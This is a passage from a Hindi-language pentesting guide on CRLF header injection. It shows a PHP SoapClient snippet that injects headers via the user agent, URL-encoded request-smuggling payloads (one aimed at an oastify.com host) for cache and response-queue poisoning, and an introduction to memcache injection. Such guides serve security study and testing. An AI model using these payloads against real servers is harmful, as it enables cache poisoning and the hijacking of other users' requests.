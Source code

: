 ```php
$post_string
);

$client = new SoapClient(null,
array(
'uri'=>$target,
'location'=>$target,
'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
)
);

#Put a nc listening in port 9090
$client->__soapCall("test", []);
```
### हेडर इंजेक्शन करके रिक्वेस्ट स्मगलिंग

आप महत्वपूर्ण हेडर्स को इंजेक्ट कर सकते हैं ताकि **बैक-एंड कनेक्शन खुली रहे** प्रारंभिक रिक्वेस्ट के उत्तर के बाद:
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```
फिर, **एक दूसरी रिक्वेस्ट निर्दिष्ट करें**। यहां आपके पास एक **क्लासिक** [**रिक्वेस्ट स्मग्लिंग**](http-request-smuggling/) है जिसमें सर्वर द्वारा संक्रमण के बाद अतिरिक्त **हेडर/बॉडी** जोड़े जाते हैं।\
यहां दो से अधिक पार-उपयोगकर्ता शोषण के लिए कुछ विकल्प हैं।

या तो अपने प्रेफिक्स में एक **हानिकारक प्रारंभ** निर्दिष्ट करें ताकि आगामी उपयोगकर्ता की रिक्वेस्ट या वेब कैश को दूषित किया जा सके:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

या अपने प्रेफिक्स को तालिका जंक के साथ मिलाकर एक पूर्ण दूसरी रिक्वेस्ट बनाने के लिए तैयार करें ताकि **प्रतिक्रिया कतार दूषित** की जा सके।

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

इस तकनीक और संभावित समस्याओं के बारे में अधिक जानकारी के लिए [**मूल स्रोत की जांच करें**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning)।

### मेमकैश इंजेक्शन

मेमकैश एक **कुंजी-मान-संग्रह है जो एक स्पष्ट पाठ प्रोटोकॉल का उपयोग करता है**। अधिक जानकारी के लिए देखें:

{% content-ref url="../network-services-pentesting/11211-memcache/" %}
[11211-memcache](../network-services-pentesting/11211-memcache/)
{% endcontent-ref %}

यदि कोई प्लेटफॉर्म **एक HTTP रिक्वेस्ट से डेटा लेती है और इसे सेनिटाइज़ नहीं करके** एक **मेमकैश** सर्वर को **रिक्वेस्ट** करने के लिए उपयोग कर रही है, तो हमलावर इस व्यवहार का दुरुपयोग कर सकता है और **नए मेमकैश कमांड इंजेक्शन** कर सकता है।
